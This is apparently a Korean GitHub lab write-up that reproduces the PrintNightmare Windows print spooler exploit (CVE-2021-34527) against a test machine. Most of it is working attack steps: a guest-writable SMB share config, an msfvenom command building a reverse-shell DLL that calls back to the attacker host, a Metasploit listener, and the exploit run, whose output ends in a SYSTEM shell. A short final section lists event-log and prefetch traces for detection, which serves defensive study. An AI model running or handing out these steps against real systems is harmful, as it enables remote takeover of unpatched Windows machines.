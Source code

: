 # [목차]
**1. [Environment](#Environment)**

**2. [Setting](#Setting)**

**3. [Exploit](#Exploit)**

**4. [etc](#etc)**


***


# **Environment**

| Type       | OS              | Build     | Core | RAM  | IP            | App          |
| :---       | :---            | :---      | :--- | :--- | :---          | :---         |
| Victim     | Windows 10 1903 | 18362.356 | 2    | 4GB  | 192.168.0.114 |              |
| Attacker   | Kali 2019       |           |      |      | 192.168.0.112 | [exploit.py](https://github.com/2jinu/CVE/blob/main/RCE/%5BWindows%5D%20CVE-2021-34527/file/exploit.py) |


# **Setting**

spooler 서비스 동작 확인

![](images/2022-05-18-21-39-59.png)



# **Exploit**

SMB 서버의 smb.conf(/etc/samba/smb.conf) 설정 수정

```
[global]
map to guest = Bad User
server role = standalone server
usershare allow guests = yes
idmap config * : backend = tdb
smb ports = 445

[smb]
comment = Samba
path = /tmp/
guest ok = yes
writable = yes
read only = no
browseable = yes
force user = nobody
```

reverse tcp 페이로드 생성

```sh
┌──(root💀kali)-[~]
└─# msfvenom -f dll -p windows/x64/shell_reverse_tcp LHOST=192.168.0.112 LPORT=3333 -o /tmp/evil.dll
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of dll file: 8704 bytes
Saved as: /tmp/evil.dll
```

SMB 서버 실행

```sh
┌──(root💀kali)-[~/Desktop]
└─# service smbd start                                                   3 ⨯
                                                                             
┌──(root💀kali)-[~/Desktop]
└─# service smbd status
● smbd.service - Samba SMB Daemon
     Loaded: loaded (/lib/systemd/system/smbd.service; disabled; vendor pres>
     Active: active (running) since Thu 2021-07-15 22:20:38 EDT; 1s ago
...
```

metasploit 세션 대기

```
msf6 > use multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set PAYLOAD windows/x64/shell_reverse_tcp
PAYLOAD => windows/x64/shell_reverse_tcp
msf6 exploit(multi/handler) > set LHOST 192.168.0.112
LHOST => 192.168.10.223
msf6 exploit(multi/handler) > set LPORT 3333
LPORT => 3333
msf6 exploit(multi/handler) > run
[*] Started reverse TCP handler on 0.0.0.0:3333
```

Exploit Code 실행

    python3 exploit.py "아이디":"비밀번호"@"공격 대상 IP" "아무 문자열" "\\SMB 서버 IP\공유 폴더 명\실행시킬 악성코드"

```sh
┌──(root💀kali)-[~]
└─# python3 CVE-2021-34527.py user:user@192.168.0.114 a '\\192.168.0.112\smb\evil.dll'
[*] Connecting to ncacn_np:192.168.0.114[\PIPE\spoolss]
[+] Bind OK
[+] pDriverPath Found C:\Windows\System32\DriverStore\FileRepository\ntprint.inf_amd64_16f13144559407c0\Amd64\UNIDRV.DLL
[*] Executing \??\UNC\192.168.0.112\smb\evil.dll
[*] Try 0...
[*] Stage0: 0
[*] Stage1: 0
[+] Exploit Completed
[*] Stage2: 0
[+] Exploit Completed
[*] Stage3: 0
[+] Exploit Completed
SMB SessionError: STATUS_PIPE_BROKEN(The pipe operation has failed because the other end of the pipe has been closed.)
SMB SessionError: STATUS_PIPE_CLOSING(The specified named pipe is in the closing state.)
...
```

metasploit 세션 확인

```sh
[*] Command shell session 1 opened (192.168.0.112:3333 -> 192.168.0.114:50004) at 2021-07-16 00:32:42 -0400
C:\Windows\system32>whoami
whoami
nt authority\system
```

# **etc**

이벤트뷰어(eventvwr)의 로그 확인

    Windows 로그 > 보안

![](images/2022-05-18-21-48-56.png)

![](images/2022-05-18-21-49-00.png)

![](images/2022-05-18-21-49-04.png)

    Windows 로그 > 응용 프로그램

![](images/2022-05-18-21-49-15.png)

![](images/2022-05-18-21-49-19.png)

    Windows 로그 > 시스템

![](images/2022-05-18-21-49-30.png)

    응용 프로그램 및 서비스 로그 > Microsoft > Windows > SMBClient > Operational

![](images/2022-05-18-21-49-55.png)

process tree 확인

![](images/2022-05-18-21-50-08.png)

prefetch 확인

![](images/2022-05-18-21-50-19.png)

[Reference](https://github.com/cube0x0/CVE-2021-1675)